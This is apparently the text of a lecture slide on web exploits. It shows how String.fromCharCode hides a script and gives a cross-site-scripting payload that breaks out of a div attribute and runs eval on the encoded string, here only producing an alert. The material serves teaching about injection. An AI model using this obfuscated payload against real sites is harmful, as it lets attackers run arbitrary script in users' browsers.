

# Exploits
String.fromCharCode(118,97,114,32,119,61,51,59,97,108,101,114,116,40,119,41,59) returns the string "var w=3;alert(w);“
Payload: <div id="UserDataNode0" class='UserID=17601323"+eval(String.fromCharCode(118,97,114,32,119,61,51,59,97,108,101,114,116,40,119,41,59))+";'></div>
The string generated by fromCharCode(); can be any script the exploiter specifies.